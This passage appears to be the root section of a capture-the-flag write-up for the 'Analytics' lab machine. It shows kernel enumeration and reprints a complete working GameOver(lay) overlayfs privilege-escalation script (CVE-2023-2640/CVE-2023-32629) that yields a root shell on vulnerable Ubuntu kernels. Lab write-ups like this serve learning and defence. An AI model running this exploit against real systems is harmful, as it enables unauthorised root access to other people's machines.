## Root

Although root is a kernel exploit, it took me a lot of time to find the right one.

After running `uname -a`, we get the kernel and OS version running.




```bash
metalytics@analytical.htb:~$ uname -a
```
```
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```



I couldn’t find anything with searchsploit there, but after a couple of google searches on both Ubuntu and linux versions, I found [this interesting exploit](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh) for both CVE-2023-2640 and CVE-2023-32629.




```bash
#!/bin/bash

# CVE-2023-2640 CVE-2023-3262: GameOver(lay) Ubuntu Privilege Escalation
# by g1vi https://github.com/g1vi
# October 2023

echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```



The exploit above gives us a root shell, which leads us to the root flag under `/root/root.txt`.

Here’s the website that confirmed me that this version was vulnerable:

https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability